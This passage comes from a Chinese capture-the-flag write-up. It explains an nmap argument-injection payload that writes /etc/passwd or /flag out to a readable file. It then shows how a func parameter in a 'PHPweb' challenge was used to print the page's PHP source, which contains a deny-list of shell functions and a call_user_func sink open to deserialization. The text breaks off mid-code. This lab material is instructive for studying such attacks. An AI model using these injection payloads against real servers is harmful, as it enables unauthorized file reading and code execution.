当我们输入payload：
```
 127.0.0.1’ -iL /etc/passwd -o 1
```

经过函数处理：

![](https://img-blog.csdnimg.cn/20210316223948535.png#pic_center)
访问`1’` 文件即可

还有以下不同：

```
输入：  ' 127.0.0.1 -iL /flag -o 7.txt '  直接访问 7.txt
回显：  f571d -iL /flag -o 7.txt \ 127.0.0.1 \\

输入：  127.0.0.1' -iL /flag -o 8.txt  访问 8.txt'
回显：  f571d -iL /flag -o 8.txt' 127.0.0.1\
```

---
## PHPweb
- 考点：反序列化

![](https://img-blog.csdnimg.cn/20210316224631516.png#pic_center)
抓包后发现  在`func`处应该是调用函数，p为参数

使用 `file_get_contents`   &p=index.php

读取index.php 的源码：


```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch",
      "escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",
      "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce",
      "array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents"
    );
    function gettime($func, $p) {
      $result = call_user_func($func, $p);
      $a= gettype($result);
      if ($a == "string") {
        return $result;
      } else {
        return "";
      }
    }
    class Test {
      var $p = "Y-m-d h:i:s a";
      var $func = "date";
      function __destruct() {
        if ($this->func != "") {
          echo gettime($this->func, $this->p);
        }
      }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
    if ($func != null) {
      $func = strtolower($func);
      if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
```